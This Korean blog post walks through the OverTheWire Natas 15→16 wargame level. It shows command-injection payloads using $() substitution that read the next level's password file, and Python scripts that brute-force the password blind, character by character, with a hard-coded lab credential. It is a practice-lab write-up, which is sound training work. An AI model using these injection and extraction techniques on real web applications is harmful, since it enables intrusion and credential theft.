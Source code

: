 ```yaml
---
title: Natas Level 15 → Level 16 풀이
date: 2024-04-07 21:36:00 +09:00
categories: [wargame, natas]
tags: [natas, wargame]
image:
  path: assets/img/0407/natas16a.png
---
```

<br>
## 로그인
---
> Username: natas16
> <br> URL: <http://natas16.natas.labs.overthewire.org>


<br>특수문자를 더 필터링했다고 한다. 소스코드를 보면,
<br>![Desktop View](assets/img/0407/natas16b.png){: width="700" height="400" }<br>


소스코드가 익숙하다.. 찾아보니 <a href="https://00yj.tistory.com/165">natas9->10</a>과 비슷한 문제처럼 보인다.<br>
그런데 이번에는 Natas 9 to 10 에서 보다 많은 특수문자를 필터링하고 있으며,<br>
key로 받는 입력값도 명령어에 바로 주입되지 않도록 " "로 막아놨다. 


<br>
<br>
<br>
## 풀이
---
<br>리눅스에서는 <b>'명령어'</b> 또는 <b>$(명령어)</b>를 이용하면 "" 안에 있는 문자열도 명령어로 인식한다.<br>
<b>‘’</b>는 필터링에 걸리므로, <b>$()</b>를 이용하면 된다.


<b>happy</b>를 입력했을 때, 아래와 같이 뜬다.
<br>![Desktop View](assets/img/0407/natas16c.png){: width="700" height="400" }<br>

<br><b>happy$(grep a /etc/natas_webpass/natas17)</b>를 입력했을 때도 똑같이 출력된다.
<br>![Desktop View](assets/img/0407/natas16d.png){: width="700" height="400" }<br>
natas17 패스워드 문자열에 a가 없어서 happy를 입력했을 때와 같은 화면이 뜨는 것이다.


<br>반면<br><b>happy$(grep b /etc/natas_webpass/natas17)</b> 를 입력했을 때는 아무것도 뜨지 않는다.
<br>![Desktop View](assets/img/0407/natas16e.png){: width="700" height="400" }<br>
natas17 패스워드에 b가 있다는 뜻이다.<br>
이 결과를 이용하여 자동화 프로그램을 쓰면 된다.


<br>
<br>
<br>
## 자동화 프로그램
---
<br>먼저 패스워드를 이루는 문자열을 뽑는다.<br>
```python
import requests
from requests.auth import HTTPBasicAuth
 
auth = HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')
 
pw_char = ''
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
for char in allchars:
    r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=happy$(grep ' +
                     char + ' /etc/natas_webpass/natas17)', auth=auth)
 
    if 'happy' not in r.text:
        pw_char = pw_char + char
        print(pw_char)
```

<br>결과
<br>![Desktop View](assets/img/0407/natas16f.png){: w="250" h="500" }<br>

이제 출력된 문자열 bdhkmnsuvBCEHIKLRSUX1790을 하나씩 넣어서 패스워드를 조합하는 프로그램을 쓰자.<br>
앞의 코드랑 비슷하게 쓰면 된다.<br>
이 때 grep의 정규 표현식인 '^' 를 이용한다.<br>

> 정규 표현식이란 문자열의 집합을 지정하는 방법으로,<br>
특정 규칙을 만족하는 문자열을 찾기 위해 사용된다. 따라서<br>
<b>happy$(grep b /etc/natas_webpass/natas17)</b>는 'b'를 어디에나 포함하는 모든 줄을 찾고,<br>
<b>happy$(grep ^b /etc/natas_webpass/natas17)</b>는 오직 'b'로 시작하는 줄만을 찾는다.<br>
{: .prompt-info }


```python
import requests
from requests.auth import HTTPBasicAuth
 
auth = HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')
 
pw = ''
pw_char = 'bdhkmnsuvBCEHIKLRSUX1790'
 
for i in range(32):
    for char in pw_char:
        r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=happy$(grep ^' +
                         pw + char + ' /etc/natas_webpass/natas17)', auth=auth)
 
        if 'happy' not in r.text:
            pw = pw + char
            print(pw)
            break
```


<br> 결과
<br>![Desktop View](assets/img/0407/natas16g.png){: w="250" h="500" }<br>


<a href="https://no-more-assignment.tistory.com/209">참고 블로그</a>
